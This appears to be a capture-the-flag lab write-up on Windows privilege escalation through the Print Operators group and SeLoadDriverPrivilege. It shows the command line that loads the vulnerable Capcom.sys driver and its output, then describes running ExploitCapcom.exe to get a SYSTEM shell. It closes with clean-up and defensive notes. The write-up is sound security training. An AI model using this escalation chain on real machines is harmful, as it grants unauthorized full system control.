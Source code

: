 # Print Operators Challenge

## Overview
This challenge explores privilege escalation in Windows through the **Print Operators** group and the **SeLoadDriverPrivilege** privilege.

Members of the Print Operators group can:
- Manage printers connected to domain controllers  
- Log on locally and shut down a domain controller  
- **Load and unload device drivers**, which can allow kernel-level (SYSTEM) code execution

---

##  Context
The `SeLoadDriverPrivilege` privilege allows a user to load kernel-mode drivers.  
If a user can enable this privilege and load a **vulnerable driver**, they can execute code with **NT AUTHORITY\SYSTEM** permissions.

---



##  Step 1 — Gaining an Elevated Command Shell
Using a **UAC-bypassed** Command Prompt to start an administrative session:
<img width="1177" height="725" alt="image" src="https://github.com/user-attachments/assets/ef4ab4a9-ccac-4f46-a3cb-627d591071af" />


##  Step 2 — Enabling the Privilege and Loading the Driver
Use **EoPLoadDriver.exe** to automate:
1. Enabling `SeLoadDriverPrivilege`
2. Creating the required registry key
3. Executing `NTLoadDriver` to load the vulnerable driver

```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Tools

C:\Tools>EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
RegCreateKeyEx failed: 0x0
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: 00000000, WinError: 0

```

##  Step 3 — Exploiting the Vulnerable Driver
Run ExploitCapcom.exe, which communicates with the loaded driver and executes shellcode that steals a SYSTEM token.

<img width="1238" height="647" alt="image" src="https://github.com/user-attachments/assets/4b423556-bfc1-4c33-9d56-ecf62f276d87" />

When executed, it launches a new Command Prompt with NT AUTHORITY\SYSTEM privileges, allowing to read the contents of the flag.

<img width="1234" height="652" alt="image" src="https://github.com/user-attachments/assets/798064e9-a754-4f3d-95e5-01e755d5b27c" />

## Understanding the Exploit Chain

| Step | Description                                  |
| ---- | -------------------------------------------- |
| 1  | Become a member of **Print Operators**       |
| 2️  | Enable **SeLoadDriverPrivilege**             |
| 3️ | Load a vulnerable driver (`Capcom.sys`)      |
| 4️  | Exploit the driver to run code as **SYSTEM** |
| 5️  | Gain full control of the system              |

## Clean-Up and Mitigations

Remove the registry key created during testing:

```
reg delete HKCU\System\CurrentControlSet\Capcom
```

## Summary

This exercise demonstrates how legacy privileges like SeLoadDriverPrivilege can lead to full system compromise when combined with a vulnerable driver.
While patched in modern Windows versions, understanding this chain is valuable for:

- Learning Windows privilege architecture

- Practicing detection of driver-based escalations

- Strengthening defensive hardening policies




